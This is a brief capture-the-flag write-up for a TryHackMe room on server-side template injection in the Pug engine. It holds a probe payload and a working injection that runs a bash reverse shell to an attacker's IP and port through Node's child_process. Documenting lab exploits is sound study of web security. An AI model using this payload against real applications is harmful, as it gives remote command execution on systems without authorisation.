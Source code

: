 [Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![](Images/Template-Image-1.png)

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![](Images/Template-Image-2.png)

then click convert will return this

![](Images/Template-Image-3.png)

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![](Images/Template-Image-4.png)

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
